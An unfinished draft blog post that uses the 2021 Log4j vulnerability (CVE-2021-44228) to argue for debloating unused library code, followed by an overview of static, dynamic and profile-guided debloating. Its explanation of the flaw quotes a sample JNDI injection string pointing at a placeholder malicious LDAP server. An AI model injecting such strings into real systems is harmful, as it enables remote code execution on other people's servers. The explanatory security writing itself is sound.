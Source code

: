 ```yaml
---
layout: post
title: Why Debloating Software Based on User Usage?
subtitle: The case of the Log4j vulnerability
tags: security
description: TODO
keywords:
  - debloating,
  - log4j,
  - security,
  - vulnerabilities,
  - software engineering
image: ../img/posts/2020/2022-06-15/satyr-cover.jpg
share-img: ../img/posts/2020/2022-06-15/satyr-cover.jpg
show-avatar: false
date: 2022/06/15
author: cesarsotovalero
published: false
---
```


TODO

<figure class="jb_picture">
  {% responsive_image path: img/posts/2022/2022-06-15/satyr.jpg alt:"TODO" %}
  <figcaption class="stroke"> 
    &#169; Let's . Photo from a wooden satyr at <a href="https://goo.gl/maps/9SCooHLsZwRLTcbt6">Stockholms Centralstation</a>.
  </figcaption>
</figure>

# The Log4j Vulnerability

In December 2021, a critical vulnerability was discovered in the popular Java logging library log4j2.
The versions affected ranged [between 2.0-beta9 and 2.14.1 included](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q). 
This vulnerability was assigned the identifier [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

The vulnerability stemmed from the `JndiLookup` class in log4j, which allowed JNDI (Java Naming and Directory Interface) lookups. 
When log4j is configured to log unsanitized user input, an attacker can insert a malicious string (like `${jndi:ldap://malicious.server/payload}`) which would cause log4j to initiate a JNDI lookup.
This can lead to Remote Code Execution (RCE) because certain JNDI services, like LDAP, can return serialized Java objects, allowing the attacker to run arbitrary code on the affected server.

> The Java Naming and Directory Interface (JNDI) is an API that allows applications to discover and look up data and objects via a name. These objects can be anything from simple data items (like strings and numbers) to more complex network services. JNDI lookup is essentially the process of retrieving an object or piece of data bound to a particular name in a naming or directory service.

Because log4j is ubiquitously used in Java applications, this vulnerability was particularly alarming.
The impact was widespread, affecting countless systems, and required immediate patching. 
A patch (2.15.0) was swiftly released by the Apache Logging team that removed the vulnerable feature, and many organizations rushed to update their log4j versions or implement mitigations like JVM flags or firewall rules.

Apart from the direct RCE exploit, this vulnerability also opened up doors to other attack vectors like Denial of Service (DoS) via extremely resource-intensive JNDI lookups, or Information Disclosure as the malicious server can capture IP addresses of the servers making the lookup.

This incident also highlighted the importance of being cautious when parsing and logging untrusted input, and emphasized the need for regular security reviews of even well-established and trusted libraries in the software ecosystem.

https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/
https://logging.apache.org/log4j/2.x/security.html

# Does Debloating Helps?

The log4j vulnerability brought to light the dangers of excess code and features in widely used libraries. 
A library as pervasive as log4j having a critical flaw suggests that even well-maintained codebases can contain dormant vulnerabilities, especially in rarely used features. 
This incident underscores the importance of debloating—reducing the codebase by removing or disabling code not necessary for a particular application's functionality.

Software debloating allows organizations to reduce the attack surface of their applications by removing unnecessary features and components.
Reduced codebase means a reduced attack surface.
If parts of a library or software aren't present, they can't be exploited.
Based on thi premise, fewer components and lines of code in a software product can lead to fewer vulnerabilities.
This reduction in vulnerabilities arises because there are fewer points for an attacker to target.

In the case of log4j, the vulnerability stemmed from a particular feature related to the `JndiLookup` class that permitted JNDI (Java Naming and Directory Interface) lookups.
This feature was exploited in the vulnerability for remote code execution by sending specifically crafted inputs that the library would process.

Many applications that used log4j didn't even require the `JndiLookup` functionality or the ability to process JNDI lookups. 
However, since this feature was present in the library, and the library was integrated into their applications, they became vulnerable.
If this feature had been removed or wasn't a part of the version of the library they were using, the vulnerability would have had no impact on them, even if the flaw still existed in the code of the broader log4j project.

If an organization had debloated their version of log4j, removing features and components they didn't use, including the `JndiLookup` class, they would have naturally been immune to this particular vulnerability.
This example underscores the principle that removing or disabling unnecessary components can reduce the potential points of failure or exploitation in software.

# Software Debloating Strategies

1. **Static Analysis-Based Debloating:**
  - **Principle**: Analyze the software without executing it.
  - **Example**: Using tools like ProGuard for Java, which can identify and remove unused classes, fields, methods, and attributes based on the application's usage. Considering log4j, if an application only uses certain logging functionalities, a static analysis tool might prune away the unused features, potentially including the problematic `JndiLookup` class.
  - **Advantages**: No need to run the software, usually faster than dynamic analysis, can be integrated into build processes.
  - **Challenges**: Over-approximation might lead to removing code that's actually needed or under-approximation might leave more code than necessary.

2. **Dynamic Analysis-Based Debloating:**
  - **Principle**: Analyze the software by executing it, typically under various scenarios.
  - **Example**: Profiling a Java application during its runtime to see which methods of a library like log4j are invoked and which aren't. If certain methods are never called across various representative runs, they can be considered for removal.
  - **Advantages**: More accurate than static analysis since it's based on real execution patterns.
  - **Challenges**: Need representative workloads or usage scenarios. Might miss some code paths that are only invoked in rare situations.

3. **Profile-Guided Debloating:**
  - **Principle**: Combines both static and dynamic analysis. Software is first profiled (dynamic analysis) to collect data on which parts are most used, then that data guides static debloating processes.
  - **Example**: Running an application server under peak loads to gather profile data, and then passing that data to a tool that prunes unused parts of libraries like log4j.
  - **Advantages**: Combines the accuracy of dynamic analysis with the thoroughness of static tools.
  - **Challenges**: More complex, needs both runtime profiling and post-profiling analysis stages.

# Conclusion

While debloating can offer significant advantages, it's essential to ensure that the software still behaves correctly after the debloating process. Rigorous testing is crucial. The log4j vulnerability offers a poignant lesson on the latent dangers in extraneous code and features. In our increasingly security-conscious world, code debloating based on user usage might shift from being an optimization strategy to a critical security measure.

In conclusion, the log4j incident serves as a compelling illustration of the statement's validity.
It emphasizes the security benefits of minimizing code and features to only what is necessary for a given application or service, thereby reducing the overall risk profile.


# References

- TODO
- TODO
- TODO


